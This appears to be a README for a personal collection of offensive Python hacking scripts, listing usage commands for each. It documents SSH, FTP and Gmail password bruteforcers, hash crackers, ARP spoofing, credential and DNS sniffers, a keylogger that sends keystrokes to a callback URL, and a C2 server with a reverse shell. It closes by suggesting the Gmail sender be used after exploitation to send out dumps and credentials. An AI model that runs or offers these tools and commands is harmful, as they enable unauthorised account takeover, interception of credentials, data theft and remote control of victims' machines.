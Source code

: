 # A collection of my custom Python Scripts

Everything seems pretty self explanatory. There scripts are standalone, so duplicates of code are unavoidable.

Some extra packages may need to be installed in order for these to work.

There are more sophisticated tools out there that can perform the same functionalities or even better but coding custom tools is always a good mental exercise. You can also get an idea of how these tools, you might be using, work.

**Working with Python >= 3 version**

## Port Scanner

Usage examples:

`python3 portscan.py --host 192.168.1.1 --port 80`

*To specify multiple ports*

`python3 portscan.py --host 192.168.1.1 --port 21,22,25,80`

*To specify a range of ports*

`python3 portscan.py --host 192.168.1.1 --port 1-1000`

*Returns a table of results similar to the nmap.*

## SSH Bruteforcer

Usage examples:

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another SSH service port*

`python3 sshbrute.py --host 192.168.1.1 --port 22 --usr usersfile.txt --pwd passfile.txt`

*To reset your session before bruteforce*

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## FTP Bruteforcer

Usage examples:

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another FTP service port*

`python3 ftpbrute.py --host 192.168.1.1 --port 21 --usr usersfile.txt --pwd passfile.txt`

*To try anonymous login too on top of wordlist bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --anon`

*To reset your session before bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## Hash Cracker

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --list userlist.txt`

*Returns a successful plaintext string if cracked*

## Hash Bruteforcer

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5`

*Specify a minimum or maximum length for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8`

*Specify a custom character set for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8 --chars ABCDabcd1234!@#`

*Returns a successful plaintext string if cracked*

## Mac Changer

*Display your current MAC Address*

`python3 macchanger.py`

`python3 macchanger.py -c`

*Specify an interface*

`python3 macchanger.py -c -i eth0`

*Generate a Random MAC Address on a specified interface (optional)*

`python3 macchanger.py -r -i eth0`

*Manually set a MAC Address on a specified interface (optional)*

`python3 macchanger.py -n 00:11:22:33:44:55 -i eth0`

## ARP Spoofer

*Spoof your target IP with your source IP*

`python3 arpspoofer.py --dst 192.168.1.2 --src 192.168.1.5`

### Remote Execute

*Executes specified commands remotely to specified hosts*

`python3 remote_execute.py -i test.com -c whoami -u root`

`python3 remote_execute.py -i hosts.txt -c cmds.txt -u www-data`

### MAC Sniff

*Sniff traffic and revolve source and destination MAC addresses from packets*

`python3 macsniff.py`

### Credential Sniff

*Sniff plaintext credentials on a specified interface, protocol and port for simple protocols*

*This works for HTTP too but you might have some increased output due to headers such as User-Agent* 

`python3 credsniff.py -p 21`

`python3 credsniff.py -i eth0 -p 21 -t tcp`

### HTTP Credential Sniff

*Sniff plaintext credentials on a specified interface for HTTP requests only*

`python3 credsniff_http.py -i eth0`

### DNS Sniff

*Sniff all DNS queries performed on the specified interface*

`python3 dns_sniff.py -i eth0`

### Keylogger

*Capture keystrokes and send them to a ping back URL. You need to specify the URL inside the script.*

`python3 keylogger.py`

### C2

The c2 directory contains a POC backdoor example using a server and a reverse shell. You can modify the server + reverse shell port port according to your needs or by passing arguments. \
You can execute commands as you would do in an msf shell for example.
Additionally you can `download`, `upload`, `cd` to any directory and `exit` the shell.

Usage example: \
**Server** \
`python3 srv.py -p 8080 -i 0.0.0.0`

**Reverse Shell** \
`python3 rev_shell.py -p 8080 -i 0.0.0.0`

### GMail SMTP Brute

*Bruteforce GMail accounts via SMTP*

`python3 brute_gmail.py --email <victim@gmail.com> --wordlist <wordlist>`

`python3 brute_gmail.py --e <victim@gmail.com> --w <wordlist>`

In case of 2FA the password can be retrieved but you will still not be able to login without the 2FA app.

## GMail Send SMTP Email

*Send Email via Google SMTP*

`python3 send_gmail.py --email <youremail@gmail.com> --password <yourpassword>`

`python3 send_gmail.py --email <youremail@gmail.com> --pwd <yourpassword> --frm <fromemail@gmail.com> --body "Hello world"`

`python3 send_gmail.py -e <youremail@gmail.com> -p <yourpassword> -f <fromemail@gmail.com> -b "test"`

You can bundle up this script in post exploitation phases to send dumps, creds, etc to an email.
